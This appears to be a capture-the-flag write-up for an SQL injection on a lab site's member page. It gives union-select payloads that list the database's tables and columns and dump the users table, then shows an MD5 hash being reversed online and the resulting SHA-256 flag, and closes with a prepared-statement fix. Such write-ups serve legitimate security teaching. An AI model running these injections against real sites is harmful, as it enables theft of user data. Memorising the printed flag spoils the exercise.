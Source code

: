 # Where:
    /?page=member
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    First name: 
    Surname : users
    
-This tells us that the only table is *users*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : user_id
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : first_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : last_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : town
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : country
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : planet
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : Commentaire
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : countersign

    
-This tells us that there are the following columns: *user_id*, *first_name*, *last_name*, *town*, *country*, *planet*, *Commentaire* and *countersign*.

-We then enter:

    -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

-We get all the users' information.
-The 5th user has the following info and instructions:

    user_id: 5,
    first_name: Flag,
    last_name: GetThe,
    town: 42,
    country: 42,
    planet: 42,
    Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !,
    countersign: 5ff9d0165b4f92b14994e5c685cdce28

-If we decrypt *5ff9d0165b4f92b14994e5c685cdce28* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *FortyTwo*
-Which we change to all be lowercase then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
    10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.<br>
I do also believe sha256 is a better hash to use especialy when combined with a salt.
